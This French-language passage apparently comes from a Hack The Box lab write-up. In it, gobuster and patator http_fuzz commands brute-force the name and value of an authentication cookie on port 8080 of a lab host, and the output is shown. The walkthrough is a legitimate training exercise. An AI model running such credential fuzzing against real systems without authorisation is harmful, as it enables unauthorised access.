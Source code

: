 Maintenant le port 8080 : on est accueillit par un message *Access denied: password authentication cookie not set*.  

Un [gobuster](https://github.com/OJ/gobuster) sur ce port ne nous remonte qu'une URL */socket* qui retourne *Missing parameters*...  

Bref c'est le moment de patater !  

Premièrement essayons de retrouver le nom du cookie attendu :  

```plain
$ patator http_fuzz url='http://10.10.10.86:8080/' header='Cookie: FILE0=nawak;' 0=common_query_parameter_names.txt  -x ignore:clen=322
13:42:13 patator    INFO - Starting Patator v0.7 (https://github.com/lanjelot/patator) at 2019-01-12 13:42 CET
13:42:13 patator    INFO -
13:42:13 patator    INFO - code size:clen       time | candidate                          |   num | mesg
13:42:13 patator    INFO - -----------------------------------------------------------------------------
13:42:19 patator    INFO - 200  496:324        0.054 | password                           |  1295 | HTTP/1.1 200 OK
13:42:43 patator    INFO - Hits/Done/Skip/Fail/Size: 1/5697/0/0/5697, Avg: 187 r/s, Time: 0h 0m 30s

Access denied: password authentication cookie incorrect
```

J'avoue qu'on aurait pu le trouver tout seul celui-ci. Continuons avec la valeur possible :  

```plain
$ patator http_fuzz url='http://10.10.10.86:8080/' header='Cookie: password=FILE0;' 0=common_query_parameter_names.txt  -x ignore:clen=324
13:45:18 patator    INFO - Starting Patator v0.7 (https://github.com/lanjelot/patator) at 2019-01-12 13:45 CET
13:45:18 patator    INFO -
13:45:18 patator    INFO - code size:clen       time | candidate                          |   num | mesg
13:45:18 patator    INFO - -----------------------------------------------------------------------------
13:45:26 patator    INFO - 200  712:540        0.053 | secret                             |  1596 | HTTP/1.1 200 OK
13:45:48 patator    INFO - Hits/Done/Skip/Fail/Size: 1/5697/0/0/5697, Avg: 190 r/s, Time: 0h 0m 29s
```

Il faut donc un cookie *password* de valeur *secret*.  

Notez ici que pour déterminer la valeur passée à l'option *ignore* je fais une première passe rapide sans spécifier l'option pour noter sa valeur générique dans l'output, stoppe le process et relance avec l'option.  

Ici *clen* correspond aux nombres de caractères présents dans la page, ce qui génère souvent moins de faux positifs qu'utiliser la taille brute des réponses (*size*) qui est souvent du contenu compressé.  

Armé de cette info j'ai installé l'extension Firefox *Cookie Manager*, ce n'est clairement pas la meilleure mais elle a fait le job :  

